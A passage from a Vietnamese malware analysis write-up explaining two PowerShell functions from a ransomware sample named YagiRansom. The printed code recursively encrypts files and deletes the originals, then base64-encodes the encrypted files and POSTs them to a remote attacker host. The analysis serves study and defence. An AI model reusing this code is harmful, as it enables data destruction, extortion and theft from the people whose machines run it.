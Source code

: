 4. `function EncryptFiles` mã hóa các file mục tiêu.

```powershell
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
```

* Đầu tiên hàm tạo 1 danh sách `$ExcludedFiles` để chứa các `extention` và 1 file `yaginote.txt` 
* Tiếp đó duyệt qua các thư mục để lấy tệp và loại trừ những file chứa `extention` trong `$ExcludedFiles` , lấy đầy đủ đường dẫn từ tệp và đưa vào biến `$i`
* Sau đó gọi hàm `function Invoke-AESEncryption` để mã hóa biến `$i` là `path` vừa rồi theo `key` là biến `$WiETm` . Sau đó ghi lại đoạn mã hóa theo `format` `"$Directory$slash$I26" -Value "[!] $i is now encrypted" ` và xóa đi tệp đó.
* Tương tự code trước thì dòng tiếp theo để lọc ra dòng, chuỗi chứa `[!]` và loại những dòng, chuỗi chứa `YagiRansom!` . Nếu k có `logs` thì in ra `logs` là `"$Directory$slash$I26" -Value "[!] No files have been encrypted!"` 
 
 Mô tả chung 

 ```
 Hàm có tác dụng lọc ra các tệp theo điều kiện và mã hóa "path" theo thuật toán AES => ghi lại vào logs và xóa file hiện tại đó.
 ```
 
 5. `function ExfiltrateFiles` mã hóa và gửi dữ liệu đi

```powershell
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
```

* Dòng đầu tiên sẽ gửi yêu cầu tới `url` bằng `HTTP GET` và không hiển thị ra kết quả.
* Tiếp theo sẽ đọc `logs` ra và tìm chuỗi `"No files have been encrypted!"` 
* Tìm tất cả các tệp bị mã hóa tức là có `extention` là `.enc` , loại bỏ thư mục, lấy đường dẫn đầy đủ , lấy mỗi tên tệp, mã hóa nội dung tệp bằng lệnh `$B64file = R64Encoder -f $i` , mã hóa tên tệp bằng lệnh `$B64Name = R64Encoder -t $Pfile` . Sau đó gửi nội dung tệp bị mã hóa đến `url` qua `HTTP POST` với `format` `"$7CiB$UFX/files/$B64Name"` . Nếu k có tệp bị mã hóa sẽ gửi đi một yêu cầu POST khác, với tên tệp là `"none.null"` đã được mã hóa `base64`
